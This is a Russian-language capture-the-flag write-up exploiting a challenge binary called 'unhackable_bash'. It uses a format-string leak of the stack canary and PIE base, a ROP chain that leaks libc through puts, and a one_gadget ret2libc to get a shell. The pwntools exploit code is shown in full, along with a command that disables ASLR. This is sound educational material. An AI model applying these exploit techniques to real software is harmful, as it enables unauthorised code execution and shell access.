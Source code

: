 Описание эксплойта
===

Сначала проверяем бинарный файл

```bash
file publish/unhackable_bash && checksec publish/unhackable_bash
```

![Check](../images//check.jpg)

Важные для нас моменты - включённые [pie](https://pwn.college/concepts/pie.html) и [stack canary](https://ctf101.org/binary-exploitation/stack-canaries/)

Первое означает, что для получения шелла нам сначала нужно будет узнать `PIEBASE`, то есть базовый адрес, по которому ОС загрузила нашу программу в память. Без него, читая бинарник, мы можем узнать лишь смещения адресов функций относительного базового адреса

![Functions](../images/functions.jpg)

Наличие стековых канареек не позволяет сразу использовать `ret2libc` и в целом перехватывать контроль над программой, перетирая адреса возврата из функций. Следовательно, в какой-то момент нашего эксплойта мы должны узнать значение стековой канарейки (оно одно на всю программу), чтобы в дальнейшем подставлять его при переполнениях

Для дальнейшего анализа воспользуемся декомпилятором `Cutter`. Проматривая полученный псевдокод на С, находим 2 потенциально уязвимые функции, `read_file` и `get_feedback`. Первая использует `gets`, небезопасное чтение из `stdin` в буффер, которое не проверяет длину считываемой строки, таким образом позволяя переполнить буффер и переписать значения на стэке. Вторая функция использует уже безопасное чтение из файла `fgets`, однако печатает строку через `printf` как литерал, допуская уязвимость форматной строки и чтение данных со стека

![Format string](../images/format_strinf.jpg)

> Для локального анализа будет полезно отключить ASLR, чтобы программа загружалась в память каждый раз по одному и тому же адресу
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
``` 

Напишем простой скрипт [`fuzz.py`](./fuzz.py) для автоматизации проверок печатаемых значений. Наша цель - узнать канарейку и `PIEBASE`. Прогоняя скрипт вместе с `gdb`, находим на каком месте в стэке расположена канарейка и адрес какой-либо функции. Затем вычитая из адреса функции его смещение (оно статически вшито в бинарь), мы получаем базовый адрес

```python
# Leak 2 values from stack, address to calculate piebase and canary
io.sendlineafter(b'learned', '%{}$p %{}$p'.format(
    address_stack_offset, canary_stack_offset).encode())

io.recvuntil(b': ')

address_str, canary_str = str(io.recvline(), 'utf-8').split(' ')

leaked_address = int(address_str, 16)
leaked_cannary = int(canary_str, 16)

# Now calculate the piebase using known static address offset
exe.address = leaked_address - pie_offset

# Print leaked values for debug
info("piebase: %#x", exe.address)
info("leaked canary: %#x", leaked_cannary)
```

Теперь нам нужно узнать базовый адрес `libc`. Для этого мы распечатаем адрес какой-то функции из `got.plt` и вычтем её относительное смещение. Значит нам нужна какая-то функция из `libc` которая уже была вызвана в программе до этого, чтобы её адрес попал в `plt`. Для этого удобно подойдёт `puts`, с помощью которой мы потом и распечатаем адрес самой `puts`. Но нам нужно ещё положить адрес в регистр `rdi`, ведь именно значение из него используется в `puts`.

Воспользуемся командной утилитой `ropper` и найдём адрес гаджета (а точнее его смещение относительно базового) который выполнит `pop rdi`.

![Ropper](../images/ropper.jpg)

Составим вредоносный `payload`, который выведет адрес `puts` в результате и отправим его, а в самом конце перетрём адрес возврата снова на функцию `read_file`

```python
# Construct payload to leak libc address
payload = flat({
    buffer_offset: [
        leaked_cannary,  # leaked canary to safely take up on the control flow
        b'junkjunk',     # just need to feel the offset
        pop_rdi_gadget,  # pop rdi; ret
        exe.got.puts,    # get GOT address of puts as argument to next call of puts
        exe.plt.puts,    # Call puts() to leak the GOT.puts address
        exe.symbols.read_file # rewrite return address with read_file again
    ]
})

# Send payload and skip 1 line
io.sendline(payload)
io.recvline()

# Read and unpack got address for puts
got_puts = unpack(io.recvline()[:6].ljust(8, b"\x00"))

# Calculate libc base address using puts offset
libc.address = got_puts - libc.symbols.puts

info("libc_base: %#x", libc.address)
```

Используем утилиту `one_gadget` чтобы найти гаджет в `libc` который и даст нам шелл. Нам подходит самый первый

![One gadget](../images/one_gadget.jpg)

Теперь у нас есть всё необходимое для того чтобы выполнить `ret2libc с захватом шелла`.

```python
# Knowing libc address, we can calculate our shell gadget address
shell_gadget = libc.address + shell_gadget_offset

# Same payload as before but with libc gadget now
payload = flat({
    buffer_offset: [
        leaked_cannary,
        b'junkjunk',
        shell_gadget  # system('/bin/sh')
    ]
})

# Send payload
io.recvuntil(b'filename')
io.sendline(payload)

# Skip line
io.recvline()

# Get shell
io.interactive()
```

# Результат работы скрипта

### Локально

![Local](../images/local.jpg)

### Удалённо

![Remote](../images/result.jpg)

